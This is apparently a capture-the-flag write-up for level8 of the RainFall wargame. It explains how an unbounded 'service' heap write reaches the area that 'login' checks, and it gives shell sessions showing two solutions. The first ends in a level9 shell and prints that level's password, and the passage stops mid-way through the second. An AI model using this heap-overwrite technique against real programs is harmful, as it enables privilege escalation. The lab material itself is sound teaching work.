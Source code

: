     ![stack view](./Ressources/gdb-service-AABBCCCDDE.png) 

    __SEEE :)__ : since service is not limited with a specefic length , we were able to fill it with 16 bytes and that led to write in memory until we reached the area checked for shell execution, which is at the offset of 16
1. mmmmmm  i dont know any **third solution** to be honest, **if you KNOW**, **open a pr <3**
---

### Solution :
#### solution 1:
- by calling service two times with or without a value after service
`\n` will always be taken as value if you left it empty after service and pressed ENTER
    ```shell
    level8@RainFall:~$ ./level8 
    (nil), (nil) 
    auth abdellah
    0x804a008, (nil) 
    service
    0x804a008, 0x804a018 
    service
    0x804a008, 0x804a028 
    login
    $ whoami
    level9
    $ pwd
    /home/user/level8
    $ cat /home/user/level9/.pass
    c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
    $ 
    ```
#### solution 2:
- on call for service but will enough length to reach the wanted area
    ```shell
    level8@RainFall:~$ ./level8 
    (nil), (nil) 
    auth allali
    0x804a008, (nil) 
    service0123456789123456
    0x804a008, 0x804a018 